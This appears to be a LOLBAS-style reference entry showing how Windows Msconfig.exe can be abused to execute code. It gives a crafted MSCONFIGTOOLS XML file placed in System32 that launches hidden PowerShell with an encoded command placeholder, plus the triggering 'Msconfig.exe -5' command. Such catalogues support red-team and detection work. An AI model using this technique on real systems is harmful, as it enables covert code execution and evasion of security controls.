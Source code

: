 ## Msconfig.exe

* Prerequisites

add a crafted .xml in System32
```
<?xml version="1.0" ?> 
<MSCONFIGTOOLS> 
<a NAME="LOLBin" PATH="%windir%\System32\WindowsPowerShell\v1.0\powershell.exe" 
DEFAULT_OPT="-nop -sta -enc -w 1 YOURBASE64" ADV_OPT="-command calc.exe" HELP="LOLBin MSCONFIGTOOLS"/> 
</MSCONFIGTOOLS>
```

* Functions: Execute

```
Msconfig.exe -5  
 
```

Acknowledgements:
* Pierre-Alexandre Braeken - @pabraeken


Resources:
* https://twitter.com/pabraeken/status/991314564896690177

Full path:
```
c:\windows\system32\msconfig.exe
```

Notes:



 
